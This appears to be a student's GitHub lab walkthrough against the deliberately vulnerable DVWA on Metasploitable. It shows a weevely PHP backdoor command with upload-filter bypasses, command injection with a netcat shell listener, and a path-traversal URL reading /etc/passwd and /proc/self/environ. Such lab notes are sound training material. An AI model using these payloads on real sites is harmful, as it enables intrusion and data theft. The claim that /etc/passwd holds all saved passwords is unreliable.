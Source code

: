 # basic-vulnerabilities-Metasploitable
## FileUploadVulnerability
- weevely is a tool used for opening the backdoors and to access the website.
```
weevely generate 123456 /root/shell.php
```
- this creates a php file which is used to upload and open backdoors
- after uploading, run the following command
- `weevely (respective url) 123456`
- now from the terminal we can open the backdoor that is  `cd ..` to get back and then we can access as we want.
- burpsuite is used to interpt the website being executed with the help of proxy.

> __low__ - any file can be uploaded i.e., shell.php
>![Screenshot 2024-04-12 223232](https://github.com/stellados53/kali_commands/assets/142677726/dbc0885c-2112-4832-989f-a6c8dba0eb44)
> 
> __medium__ - we rename the file from shell.php to shell.jepg i.e., shell.jpeg and upload it using bruiteforce by changing the filename to php.
>![Screenshot 2024-04-12 224041](https://github.com/stellados53/kali_commands/assets/142677726/9d3a9640-817f-446f-91cc-f09b4c5d2baf)
> 
> __high__ - we change the file type to shell.php.jpeg and upload and then expoit.
> ![Screenshot 2024-04-12 224407](https://github.com/stellados53/kali_commands/assets/142677726/e202b0e8-1ee3-44e0-8f28-a04c6d404255)
- overall output will be..
 ![Screenshot 2024-04-12 224454](https://github.com/stellados53/kali_commands/assets/142677726/5c02d3fb-e53e-4ed3-85c7-477390b703c7)


<h3 align="center"> ... </h3> 

## Code Execution Vulnerability

- open any searchable website (dvwa- command execution)
- run the following command
```
nc -vv -l -p 8080
```
![Screenshot 2024-04-09 232801](https://github.com/stellados53/kali_commands/assets/142677726/7d1cc4d5-5310-4934-84ba-2c44d0124a0e)

> nc   = netcat tool this is used to use and connect the computer to the website.
> 
> -vv  = it is just a verbose mode, which retireve more output.
> 
> -l   = Listen mode, used to create a server that listens for incoming connections.
> 
> -p   = Specifies the source port number.
> 
> 8080 = port number.
- Now you can execute any command of kali linux such as pwd, ls -la.
- the execution will be done.

> __low__ - in searchbox END WITH ";" AND RUN THE COMMAND ACCORDING TO THE WEBSITE OS.MOST IMPORTANT IF THE IP IS 192.168.11.129, SUBTRACT THE LAST NUMBER -1 THAT IS 192.168.11.128.
>
> __medium__ - it cannot run two commands using ";" so we use "|" for the exploit.
>![Screenshot 2024-04-12 223232](https://github.com/stellados53/kali_commands/assets/142677726/d22e5048-15cd-491b-817f-f2a79979e8d3)
>
> __high__ is not even possible


## File Inclusion Vulnerability
- it allows you to read  any file in the same server.
- access files outside www directory.
- generally to get the commands to be executed in the kali linux we use  `cat etc/passwd`, the same we use in the file url to extract all the saved passwds.
```
http://192.168.11.129/dvwa/vulnerabilities/fi/?page=/../../../../../etc/passwd
```
- by using this command we can get the all saved passwords saved in the webserver.
![Screenshot 2024-04-12 222928](https://github.com/stellados53/kali_commands/assets/142677726/615af2ec-4ac3-4ca6-a33b-28a323ed794a)

- Now as reference from the above use the another executable urls.
![Screenshot 2024-04-12 231128](https://github.com/stellados53/kali_commands/assets/142677726/9cc2d6f4-169b-41f9-b5d6-82513acb37b7)
- from above image the first one  `proc/self/environ` we get..
![Screenshot 2024-04-12 231736](https://github.com/stellados53/kali_commands/assets/142677726/ab250e34-700e-49c3-bcb9-500b88edd38c)

